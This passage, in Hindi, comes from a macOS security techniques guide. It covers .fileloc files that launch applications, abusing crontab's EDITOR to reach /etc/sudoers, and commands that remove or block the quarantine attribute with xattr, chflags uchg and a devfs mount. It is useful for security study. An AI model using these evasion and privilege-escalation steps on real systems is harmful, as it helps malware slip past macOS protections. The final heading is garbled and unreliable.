 **`.fileloc`** एक्सटेंशन वाली फ़ाइलें अन्य एप्लिकेशन या बाइनरी की ओर पॉइंट कर सकती हैं ताकि जब वे खोले जाएं, तो एप्लिकेशन/बाइनरी को चलाया जाए।\
उदाहरण:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>URL</key>
<string>file:///System/Applications/Calculator.app</string>
<key>URLPrefix</key>
<integer>0</integer>
</dict>
</plist>
```
## अनियमित FD

यदि आप किसी **प्रक्रिया को उच्च विशेषाधिकारों के साथ एक फ़ाइल या फ़ोल्डर खोलने के लिए** मजबूर कर सकते हैं, तो आप **`crontab`** का दुरुपयोग कर सकते हैं ताकि `/etc/sudoers.d` में एक फ़ाइल को **`EDITOR=exploit.py`** के साथ खोलें, इस प्रकार `exploit.py` `/etc/sudoers` के अंदर फ़ाइल को प्राप्त करेगा और इसका दुरुपयोग करेगा।

उदाहरण के लिए: [https://youtu.be/f1HA5QhLQ7Y?t=21098](https://youtu.be/f1HA5QhLQ7Y?t=21098)

## क्वारंटाइन xattrs ट्रिक्स से बचें

### हटाएं
```bash
xattr -d com.apple.quarantine /path/to/file_or_app
```
### uchg / uchange / uimmutable फ्लैग

यदि किसी फ़ाइल/फ़ोल्डर में यह अविकारी गुण है तो उस पर xattr नहीं लगाया जा सकेगा।
```bash
echo asd > /tmp/asd
chflags uchg /tmp/asd # "chflags uchange /tmp/asd" or "chflags uimmutable /tmp/asd"
xattr -w com.apple.quarantine "" /tmp/asd
xattr: [Errno 1] Operation not permitted: '/tmp/asd'

ls -lO /tmp/asd
# check the "uchg" in the output
```
### defvfs माउंट

**devfs** माउंट **xattr का समर्थन नहीं करता**, अधिक जानकारी [**CVE-2023-32364**](https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html) में मिलेगी।
```bash
mkdir /tmp/mnt
mount_devfs -o noowners none "/tmp/mnt"
chmod 777 /tmp/mnt
mkdir /tmp/mnt/lol
xattr -w com.apple.quarantine "" /tmp/mnt/lol
xattr: [Errno 1] Operation not permitted: '/tmp/mnt/lol'
```
### लेखेंटेक्सट्ट्रिब्यूट एसीएल
